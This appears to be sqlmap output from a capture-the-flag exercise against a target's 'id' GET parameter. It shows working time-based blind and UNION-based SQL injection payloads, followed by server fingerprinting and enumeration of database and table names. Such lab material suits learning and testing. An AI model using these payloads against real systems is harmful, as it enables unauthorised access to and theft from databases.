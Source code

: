 ```
[10:10:52] [INFO] GET parameter 'id' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable                                                                                                                                           
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
sqlmap identified the following injection point(s) with a total of 68 HTTP(s) requests:
---
Parameter: id (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1' AND (SELECT 7456 FROM (SELECT(SLEEP(5)))Ycjl) AND 'hSpb'='hSpb

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: id=-9654' UNION ALL SELECT NULL,NULL,CONCAT(0x716a7a7871,0x5463717475496b786a514c484d73524d52477a70687763746a727149496375786443795059526179,0x7162707171)-- -
---
[10:10:52] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 20.04 or 19.10 or 20.10 (eoan or focal)
web application technology: Apache 2.4.41
back-end DBMS: MySQL >= 5.0.12
[10:10:53] [INFO] fetching database names
[10:10:53] [INFO] fetching tables for databases: 'user, information_schema, message, mysql, performance_schema, sys, yucctf'
Database: information_schema
[79 tables]
+------------------------------------------------------+
| ADMINISTRABLE_ROLE_AUTHORIZATIONS                    |
| APPLICABLE_ROLES                                     |
| CHARACTER_SETS                                       |
| CHECK_CONSTRAINTS                                    |
| COLLATIONS                                           |
| COLLATION_CHARACTER_SET_APPLICABILITY                |
| COLUMNS                                              |
| COLUMNS_EXTENSIONS                                   |
| COLUMN_PRIVILEGES                                    |
| COLUMN_STATISTICS                                    |
| ENABLED_ROLES                                        |
| ENGINES                                              |
| EVENTS                                               |
| FILES                                                |
| INNODB_BUFFER_PAGE                                   |
| INNODB_BUFFER_PAGE_LRU                               |
| INNODB_BUFFER_POOL_STATS                             |
| INNODB_CACHED_INDEXES                                |
| INNODB_CMP                                           |
| INNODB_CMPMEM                                        |
| INNODB_CMPMEM_RESET                                  |
| INNODB_CMP_PER_INDEX                                 |
| INNODB_CMP_PER_INDEX_RESET                           |
| INNODB_CMP_RESET                                     |
| INNODB_COLUMNS                                       |
| INNODB_DATAFILES                                     |
| INNODB_FIELDS                                        |
| INNODB_FOREIGN                                       |
| INNODB_FOREIGN_COLS                                  |
| INNODB_FT_BEING_DELETED                              |
| INNODB_FT_CONFIG                                     |
| INNODB_FT_DEFAULT_STOPWORD                           |
| INNODB_FT_DELETED                                    |
| INNODB_FT_INDEX_CACHE                                |
| INNODB_FT_INDEX_TABLE                                |
| INNODB_INDEXES                                       |
| INNODB_METRICS                                       |
```